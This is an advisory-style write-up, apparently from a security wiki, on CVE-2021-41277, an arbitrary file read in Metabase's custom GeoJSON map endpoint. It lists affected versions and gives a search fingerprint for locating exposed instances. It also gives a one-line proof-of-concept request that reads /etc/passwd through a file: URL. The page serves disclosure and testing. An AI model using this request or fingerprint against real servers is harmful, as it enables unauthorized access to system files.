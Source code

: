 # Metabase geojson arbitrary file reading vulnerability CVE-2021-41277

## Vulnerability Description

In the affected version, the custom GeoJSON map (admin->settings->maps->custom maps->add a map) operation lacks permission verification, and attackers can obtain sensitive information through this vulnerability

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">metabase version < 0.40.5</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">metabase version >= 1.0.0, < 1.40.5</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">app="metabase"</span>

## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1637464175182-c424a2a6-1b8c-4550-adc7-55574c923347.png)

Verify POC

```python
/api/geojson?url=file:/etc/passwd
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1637464214932-3531a00c-8968-4104-9f6d-a0962cdef98e.png)